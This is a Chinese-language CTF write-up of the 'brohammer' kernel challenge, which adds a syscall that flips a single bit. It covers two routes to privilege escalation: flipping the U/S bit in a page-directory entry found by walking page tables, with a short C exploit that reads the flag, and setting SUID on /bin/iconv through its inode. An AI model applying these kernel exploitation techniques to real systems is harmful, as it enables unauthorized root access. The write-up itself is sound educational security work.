


## Pwn

### brohammer

`rub.sh`：

```bash
#!/bin/bash
qemu-system-x86_64 \
    -m 128M \
    -kernel ./kernel \
    -initrd ./initrd \
    -nographic \
    -monitor /dev/null \
    -append "nokaslr root=/dev/ram rw console=ttyS0 oops=panic paneic=1 quiet" 2>/dev/null
```

memory 大小為 128MB (0x8000000)，並且可以發現 kaslr 是沒有開的 (nokaslr)，因此每次載入的 code base (`_text`) 皆為固定。

`init`：

```bash
#!/bin/sh

mount -t devtmpfs none /dev
mount -t proc none /proc
mount -t sysfs none /sys

/sbin/mdev -s

chown -R root.root / > /dev/null 2>&1
chown broham.broham /home/broham

HOME=/home/broham
ENV=$HOME/.profile; export ENV

cat <<EOF

██████╗ ██████╗  ██████╗ ██╗  ██╗ █████╗ ███╗   ███╗███╗   ███╗███████╗██████╗
██╔══██╗██╔══██╗██╔═══██╗██║  ██║██╔══██╗████╗ ████║████╗ ████║██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║███████║███████║██╔████╔██║██╔████╔██║█████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║██╔══██║██╔══██║██║╚██╔╝██║██║╚██╔╝██║██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝██║  ██║██║  ██║██║ ╚═╝ ██║██║ ╚═╝ ██║███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝

Look, if you had one shot or one opportunity,
                To seize everything you ever wanted in one moment,
                              Would you hack with it, or just let it flip? Yo!
══════════════════════════════════════════════════════════════════════════════╗
EOF

cat /src/brohammer.c

cat <<EOF
══════════════════════════════════════════════════════════════════════════════╝
EOF

setsid cttyhack setuidgid 0 /bin/sh

echo -ne "\n"
echo "Bye!"

umount /dev
umount /proc
umount /sys

poweroff -d 0 -f
```


題目在 kernel 中實作一個 syscall，source code 如下：

```c
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/sched.h>
#include <linux/syscalls.h>

#ifndef __NR_BROHAMMER
#define __NR_BROHAMMER 333
#endif

unsigned long flips = 0;

SYSCALL_DEFINE2(brohammer, long *, addr, long, bit)
{
        if (flips >= 1)
        {
                printk(KERN_INFO "brohammer: nope\n");
                return -EPERM;
        }

        *addr ^= (1ULL << (bit));
        (*(long *) &flips)++;

        return 0;
}
```

可以透過此 syscall 任意 flip 一個 bit，可以想像應該並非直接控制 function pointer 等等的攻擊手法，而是 flip 某個資料的 metadata，致使讓使用者擁有 root 權限，或者是讓正常使用者可以讀/寫到原本沒辦法讀/寫的東西，如寫入 /etc/passwd。此 writeup 參考了 @hxp 以及 @mephi42 的文章，為兩個截然不同的作法。


#### hxp

根據題目明確的方向，我們可以做一些簡單的分析：

- 常見的 kernel space 保護機制都沒開 (KASLR, SMAP, SMEP, KPTI)
- 如果 text 段可以寫，只要把 bit 的大小寫掉就可以做更多事情 --> trivial
- 因為保護機制沒開，所以如果可以讓 NULL function pointer 或是一些資料從 0x0 變成 0x100000，這樣就可以控制到指向 userspace 可控的記憶體區塊 --> easy

而最後他們採取的作法為蓋掉存放 flag data 的 page 的 PTE，將 U/S bit flip 成 1，代表 user 可以存取，不過其中有一些需要考慮到的點：

- 由於是使用 initramfs，所以 flag data 會存在於 memory 當中而非 disk，並且每次載入到的位址都差不多接近。使用 `pt -ss "this is where the flag will be on the remote host..."` 就能知道存放 flag data 的 virtual address 為何 (e.g. `0xffff880005642000`)

  - 參考 [mm.txt](https://elixir.bootlin.com/linux/v4.17/source/Documentation/x86/x86_64/mm.txt) 可以知道 `0xffff88...` ~ `0xffffc7...` 的區間為所有 physical memory 的 direct mapping，因此就 `0xffff880005642000` 來看，實際對應到的物理位址應該為 `0x5642000`
  - Direct-physical map pages 通常 page size 為 2MB，`0x5642000` 對應到的 page 開頭為   `0x5600000`，對應的 virtual address 為 `0xffff880005600000`

- 之後透過 qemu monitor 找對應的 page 的 PTE 在哪，以下為互動的過程與相關註解：

  ```bash
  # pmemsave addr size file -- save to disk physical memory dump starting at 'addr' of size 'size'
  (qemu) pmemsave 0 0x8000000 memdump
  
  # 取得指向 top-level page table directory 的 cr3 register value
  (qemu) info registers
  ... CR3=0000000007738000 ...
  
  # 接著我們將目標位址拆成 16-9-9-9-12
  # length  16 bit          9 bit   9 bit   9 bit   9 bit  12 bit
  # attr    sign extension  PML4E   PDPTE   PDE     PTE    offset
  # target: 0xffff880005600000
  # 16 bits - 1111111111111111 
  # 9  bits - 100010000 (272)
  # 9  bits - 000000000 (0)
  # 9  bits - 000101011 (43)
  # 9  bits - 000000000 (0)
  # 12 bits - 000000000000
  # 執行 "xxd -e -g8 -c8 -a -s 0x7738000 -l 0x1000 ./memdump" 來查看當前記憶體的內容
  ## -e:  little-endian hexdump
  ## -g8: groupsize
  ## -c8: Format <cols> octets per line
  ## -a:  A single '*' replaces nul-lines.  Default off
  ## -s:  seek
  ## -l:  len
  
  ########### PML4E
  $ xxd -e -g8 -c8 -a -s 0x7738000 -l 0x1000 memdump
  07738000: 000000000773f067  g.s..... # off 0
  07738008: 0000000000000000  ........
  *
  077387f8: 0000000007721067  g.r..... # off 255
  07738800: 0000000000000000  ........
  *
  07738880: 00000000018fa067  g....... # off 272, our target
  07738888: 0000000000000000  ........
  *
  ... # ignore
  # 莫三個 hex value (067) 為 entry attribute，而實際 PML3 table 的 base 為 0x18fa000，後續也以此類推
  
  ########### PDPTE
  $ xxd -e -g8 -c8 -a -s 0x18fa000 -l 0x1000 memdump
  018fa000: 00000000018fb067  g....... # off 0, our target
  018fa008: 0000000000000000  ........
  *
  018faff8: 0000000000000000  ........
  
  ########### PDE
  $ xxd -e -g8 -c8 -a -s 0x18fb000 -l 0x1000 memdump
  ... # ignore
  018fb150: 80000000054001e3  ..@.....
  018fb158: 80000000056001e3  ..`..... # off 43, our target
  018fb160: 80000000058001e3  ........
  ... # ignore
  
  ########### PTE
  $ xxd -e -g8 -c8 -a -s 0x5600000 -l 0x1000 memdump
  ... # ignore
  05600208: 0000000000070c52  R.......
  05600210: 0000000000071f00  ........ # off 66, our target
  05600218: 0000071f5d000100  ...]....
  ... # ignore
  ```


而在最後一步時我發現到 page 的資料對應不上，此時才想到 page directory entry 的 PS bit (bit 7) 為 page size，當設為 1 的時候每個 page 大小為 2MB，可能是因為沒注意到的原因，導致找到錯誤的 page table，以下為 manual 的資料：





- P - present
- R/W - read / write
- U/S - superuser, 0 為 superuser
- PWT - write-thru
- PCD - cache disable
- A - accessed
- IGN - ignore
- PAT - page attribute table
- G - global
- D - dirty
- 第 7 個 bit 為 PS，在圖中為 0 代表 4KB，而設置時為 2MB

再次重新計算：

```bash
# target: 0xffff880005600000
# 16 bits - 1111111111111111
# 9  bits - 100010000 (272)
# 9  bits - 000000000 (0)
# 9  bits - 000101011 (43)
# 9  bits - 000000000 (0)
# 12 bits - 000000000000
## or 21 bits - 000000000-000000000000 (9-12)

########### PML4E
$ xxd -e -g8 -c8 -a -s 0x7738000 -l 0x1000 memdump
07738880: 00000000018fa067  g....... # off 272, our target
07738888: 0000000000000000  ........
... # ignore

### 0x67 == 0b1100111, PS = 0
########### PDPTE
$ xxd -e -g8 -c8 -a -s 0x18fa000 -l 0x1000 memdump
018fa000: 00000000018fb067  g....... # off 0, our target
018fa008: 0000000000000000  ........
... # ignore

### 0x67 == 0b1100111, PS = 0
########### PDE
$ xxd -e -g8 -c8 -a -s 0x18fb000 -l 0x1000 memdump
... # ignore
018fb150: 80000000054001e3  ..@.....
018fb158: 80000000056001e3  ..`..... # off 43, our target
018fb160: 80000000058001e3  ........
... # ignore
```

- `0xe3 == 0b11100011`
  - PS = 1 (bit 0)
  - W/R = 1 (bit 1)
  - **U/S = 0 (bit 2)**
- 由於 page size 為 2MB，因此 PDE 是最後一層 VA2PA 的 translation，`0x5600000` 即為 physical base address (實際上 virtual address 也等同於 directly mappings 的 base + `0x5600000`)

因此如果能更改 physical address `0x018fb158` 的值成 `0xe7 == 0b11100111`，代表 normal user 也可以存取到此 page，最後 exploit 如下：

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	int ret = syscall(333, 0xffff8800018fb158, 2); // U/S bit is bit 2
    unsigned char *addr = 0xffff880005642000;
    for (int i = 0; i < 0x1000; i++) {
        // find "this is where the flag will be on the remote host..."
		if (addr[i] == 't' && addr[i+1] == 'h' && addr[i+2] == 'i') {
			printf("Find flag: %s\n", addr);
            break;
        }
    }
}
```


##### mephi42

他的攻擊手法為：

1. 透過下斷點在 [bprm_fill_uid](https://elixir.bootlin.com/linux/v4.17/source/fs/exec.c#L1509)，得到目標檔案的 `bprm->file->f_path.dentry->d_inode` 位址
   - 他提到因為 `CONFIG_SMP` disable, `nokaslr` 以及使用 **initramfs**，因此 inode 的位址都會相同
   - bprm == `struct linux_binprm`，用於保存在載入 binary 時的執行參數以及環境
2. 我們的目標檔案為 `/bin/iconv`，在 flip `inode->i_mode` ( `inode->i_mode ^= S_ISUID`) 之後，`/bin/iconv` 就會有 suid 的權限，再來就可以透過 `/bin/iconv /root/flag` 讀 flag

此方法在有 symbol 的 kernel 會比較方便，一般都會透過官方提供的 vmlinux-extract 將 ELF 從 bzImage 抽出來，而 [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) 會去爬 kallsyms，加上一些找得到的 symbol，這樣在下斷點時就不需要找 address，直接透過 symbol 下就可以了。

除此之外，他也有提到其他做過的嘗試，有些想法還滿有趣的：

- 直接 flip busybox 的 SUID - **CANT**，busybox 會在執行過程中 [drops privileges](https://git.busybox.net/busybox/tree/libbb/appletlib.c?h=1_33_stable#n682)
- 建立一堆能夠讀檔的 binary，隨機 flip 一個檔案的 SUID - **CANT**，不能建立 root 權限的執行檔，所以有 SUID 也沒用
- Flip bit in IDT，讓 interrupt handler 回到 userspace 執行 - **CANT**，因為 canonical kernel address start 的開頭為 `ffff`，而 canonical userspace address 的開頭為 `0000`
- Flip bit in [user_addr_max() ](https://elixir.bootlin.com/linux/v4.17/source/arch/x86/include/asm/uaccess.h#L39)，讓 `copy_from_user()` / `copy_to_user()` 出現問題 - 同上
- Flip bit in **global length variable** bound to a `/proc` or `/sys` file (e.g. `/sys/kernel/boot_params/data`)，這樣就可以 dump 所有用過此 file 的 memory，而因為使用 initramfs 的關係，flag 會存在於 kernel memory 當中 - **CANT**，因為相關變數不是在初始化時複製到 heap 內，就是被 marked 成 `__ro_after_init`，不能更動


開啟 qemu monitor

- 在 start 時加上參數 `-monitor telnet:127.0.0.1:4321,server,nowait`
- 透過 `nc 0 4321` 連上去


參考連結：

- [OverTheWire Advent Bonanza 2018 - Snow Hammer](https://www.tasteless.eu/post/2018/12/aotw-snow-hammer/)
- [[Midnight Sun CTF 2021] Linux Kernel 本地漏洞复现](https://github.com/Mech0n/Handbook/blob/7b1aed0e8044ba4e8908516410ca97f734dbc49d/WriteUp/brohammer/README.md)
- [writeup of mephi42](https://github.com/mephi42/ctf/tree/e928171a05cba72d777981b236da1d03c975e25e/2021.04.09-Midnight_Sun_CTF_2021_Quals/brohammer)
- [gdb-pt-dump](https://github.com/martinradev/gdb-pt-dump/)